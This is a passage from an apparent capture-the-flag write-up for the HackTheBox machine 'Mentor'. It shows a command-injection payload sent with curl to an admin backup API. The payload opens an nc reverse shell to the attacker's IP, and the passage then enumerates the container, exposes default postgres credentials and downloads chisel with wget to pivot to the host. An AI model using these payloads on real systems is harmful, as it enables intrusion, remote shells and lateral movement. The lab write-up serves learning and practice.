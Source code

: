 Improved exploit with nohup and backgrounding the process and finally escaping the rest of the command with a comment, because we can't do ; and & at the same time.  
All those tricks come from the ippsec video
```bash
curl -sX 'POST' \
  'http://api.mentorquotes.htb/admin/backup' \
  -H 'accept: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' \
  -H 'Content-Type: application/json'\
  -d '{"loc": "x", "path": "xx;nohup rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.130 4242 >/tmp/f &#"}'|jq .
```
```json
{
  "INFO": "Done!"
}
```
from nohup's man page, so now it won't crash the box every single time anymore:
```
nohup - run a command immune to hangups, with output to a non-tty
```

## Pivoting and further enumeration 
Looking around we can see that there's a postgres instance on the host:
```bash
/app/app # head db.py
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
```
```bash
/app/app # ip r
default via 172.22.0.1 dev eth0
172.22.0.0/16 dev eth0 scope link  src 172.22.0.3
```

So we of course don't have psql here in the container, but the container's file system isn't read only, so we should be able download something like chisel in there and smuggle traffic from our own box into the postgres instance on the host, through the container.
```bash

/app # nc -vz 172.22.0.1 5432
       nc -vz 172.22.0.1 5432
172.22.0.1 (172.22.0.1:5432) open
```
```bash
/app/app # which psql
/app/app # touch file
/app/app # which ssh
/app/app #
/dev/shm # wget --no-check-certificate https://10.10.14.134:9090/chisel_1.7.7_linux_amd64
```
